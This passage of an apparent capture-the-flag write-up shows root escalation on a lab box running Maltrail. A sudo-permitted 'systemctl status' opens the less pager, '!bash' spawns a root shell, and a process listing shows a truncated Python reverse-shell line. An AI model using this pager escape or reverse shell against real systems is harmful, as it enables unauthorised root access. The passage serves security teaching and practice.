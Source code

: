 Trying out the command:
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Fri 2024-01-05 16:49:06 UTC; 2h 0min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 62 (limit: 4662)
     Memory: 80.7M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─ 986 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─ 989 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─ 995 sh
             ├─ 997 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
             ├─ 998 /bin/sh
             ├─1047 sudo /usr/bin/systemctl status trail.service
             ├─1049 /usr/bin/systemctl status trail.service
             ├─1050 pager
             ├─1052 sh -c /bin/bash
             ├─1053 /bin/bash
             ├─1067 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1068 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1071 sh
lines 1-23
```
We immediately get this `terminal not fully functional` warning, which is something I instantly recognize. This is common for interactive file viewers such as `more` or `less`, when viewed from a reverse shell as we are. These commands are particularly dangerous to run with elevated privileges, as we can often use !bash to open an interactive shell session as the elevated user.
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
<...SNIP...>
             ├─1067 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1068 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1071 sh
lines 1-23!bbaasshh!bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
```
There is some disorienting echoing going on, but when I input the `!bash` command and hit enter, I am dropped into a root session! With this, we have fully compromised the system.
## Alternative information gathering
### Finding the usage of less through help menu
We can also figure out very easily that the sudo command we are using is indeed utilizing `less`. By pressing `h` for help, we are given the summary of less commands:
```
<...SNIP...>
             ├─1068 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed p>
             ├─1071 sh
lines 1-23...skipping...

                   SUMMARY OF LESS COMMANDS

      Commands marked with * may be preceded by a number, N.
      Notes in parentheses indicate the behavior if N is given.
      A key preceded by a caret indicates the Ctrl key; thus ^K is ctrl-K.

  h  H                 Display this help.
  q  :q  Q  :Q  ZZ     Exit.
```